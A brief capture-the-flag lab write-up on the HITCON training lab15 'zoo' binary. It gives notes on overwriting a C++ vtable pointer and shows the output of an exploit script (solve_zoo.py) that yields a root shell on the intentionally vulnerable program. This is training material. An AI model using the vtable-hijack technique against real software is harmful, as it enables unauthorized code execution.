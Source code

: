 # HITCON training lab15
**some problem in string.c_str() method....**
- if i try to overwrite second instance's vtable with 0x605420, SIGBUG was triggerd.
- maybe First byte ( 0x20 ) has some problem with string.c_str() method.
- need to analyze this.


```
root@6c7f37ea6051:/shared/hitcon_CTF/lab/lab15# python solve_zoo.py
[*] '/shared/hitcon_CTF/lab/lab15/zoo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
[+] Starting local process './zoo': pid 866
[*] PID : 866
[*] Paused (press any to continue)
[*] Switching to interactive mode
*********************************
 1. Add a dog
 2. Add a cat
 3. Listen a animal
 4. Show a animal info
 5. Remove a animal
 6. Exit
*********************************
Your choice :$ 3

index of animal : $ 0
$ ls
Makefile           solve_zoo.py  zoo.cpp  zoo.id1  zoo.py
peda-session-test.txt  test         zoo.i64  zoo.id2  zoo.til
peda-session-zoo.txt   zoo         zoo.id0  zoo.nam
$ id
uid=0(root) gid=0(root) groups=0(root)
$
```
